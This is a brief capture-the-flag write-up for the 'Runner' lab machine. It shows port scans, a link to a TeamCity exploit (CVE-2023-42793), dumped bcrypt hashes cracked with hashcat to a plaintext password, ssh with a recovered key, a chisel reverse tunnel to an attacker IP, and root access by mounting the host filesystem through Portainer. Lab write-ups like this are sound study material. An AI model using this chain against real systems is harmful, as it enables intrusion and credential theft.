 ## Runner Linux Machine

## target ip 

10.10.11.13

## Recon 

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

8000/tcp open  nagios-nsca Nagios NSCA

## Enumeration
[1] - dirsearch :

[+] + showed /assets on port 80 with 403 response
[+] + http://runner.htb:8000/version ->0.0.0-src 


[2] - subdomain enumeration :

[+] http://teamcity.runner.htb/login.html 
[+] https://github.com/H454NSec/CVE-2023-42793

[3] - Pannel enumeration 

[+] + backup file download contains hashes :

		$2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye
		1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1713645873123, BCRYPT
		2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
		11, city_adminwhuv, $2a$07$eUwRkt5HJl1DZKr9py62sePYSi7sVG9sMVjZh1h4U6oIJ6IMCf0xa, , angry-admin@funnybunny.org, 1713645885602, BCRYPT
		12, h454nsec3577, $2a$07$tnObCkeqLb0uzSQPBqAubeXjiz.Z9bdsCufqs16O2fYzP9GVScGPO, , "", 1713646005818, BCRYPT
		13, h454nsec5334, $2a$07$Yr09SJ5UTG6rE6WwepYCJOE8Xpa2A4pB0u.kGqZ4ZHYIljzXh.STW, , "", 1713646174855, BCRYPT

[+] + Only mathew crackable :
hashcat64 -a 0 -m 3200 hashes.txt rockyou.txt -w 3 -O
matthew:piper123 ## useless ## 4 hours afters , its not useless lel

[+] + Find ssh key 
```bash
	ssh john@$ip -i id_rsa
```
## Foothold
[+] + Basic enumeration methodology again linpeas etc.. 
[+] + port 9000 interesting

		chisel on client :
		./chisel client http://10.10.14.14:1234 R:9000:127.0.0.1:9000 
		chisel on attacker
		./chisel server --reverse  --port 1234

[+] + login with mathew password 

[+] + no need for chisel found this -> http://portainer-administration.runner.htb/#!/home

[+] + make volume , create container , mount /mnt/root 


Nice machine !!!
